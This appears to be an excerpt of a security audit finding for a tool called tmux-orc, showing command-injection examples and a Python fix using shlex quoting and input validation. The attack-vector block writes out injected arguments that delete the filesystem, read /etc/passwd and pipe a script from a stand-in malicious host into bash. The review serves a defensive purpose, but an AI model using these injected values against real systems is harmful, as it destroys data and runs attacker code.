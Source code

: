 #### **Attack Vector**:
```bash
# Malicious exploitation examples:
tmux-orc spawn orc --profile '; rm -rf / #'
tmux-orc spawn orc --profile '`cat /etc/passwd`'
tmux-orc spawn orc --terminal 'xterm; curl malicious.com/steal.sh | bash'
```

#### **Required Fix**:
```python
import shlex
import subprocess
from pathlib import Path

def create_safe_startup_script(claude_cmd: list[str], instruction_content: str) -> str:
    """Create startup script with proper input sanitization."""

    # 1. Validate each command component
    validated_cmd = []
    for arg in claude_cmd:
        if not isinstance(arg, str):
            raise ValueError(f"Invalid command argument type: {type(arg)}")
        if len(arg) > 1000:  # Reasonable limit
            raise ValueError("Command argument too long")
        if any(char in arg for char in ['\x00', '\n', '\r']):
            raise ValueError("Command argument contains invalid characters")
        # Use shlex.quote for shell-safe escaping
        validated_cmd.append(shlex.quote(arg))

    safe_cmd = " ".join(validated_cmd)

    # 2. Safely escape instruction content
    safe_instruction = shlex.quote(instruction_content)

    return f"""#!/bin/bash
set -euo pipefail  # Exit on error, undefined vars, pipe failures

# Validate command before execution
if [[ -z "{safe_cmd}" ]]; then
    echo "Error: Empty command provided"
    exit 1
fi

# Create instruction file safely
INSTRUCTION_FILE=$(mktemp)
echo {safe_instruction} > "$INSTRUCTION_FILE"

# Launch with validated command
{safe_cmd} "$INSTRUCTION_FILE"

# Clean up
rm -f "$INSTRUCTION_FILE"
"""

# Usage in spawn_orc function:
def spawn_orc(profile: str | None, terminal: str, no_launch: bool, no_gui: bool) -> None:
    # Validate inputs BEFORE using them
    if profile and not re.match(r'^[a-zA-Z0-9_-]+$', profile):
        raise click.BadParameter("Profile name contains invalid characters")

    if terminal != "auto" and not re.match(r'^[a-zA-Z0-9_-]+$', terminal):
        raise click.BadParameter("Terminal name contains invalid characters")

    # Build command safely
```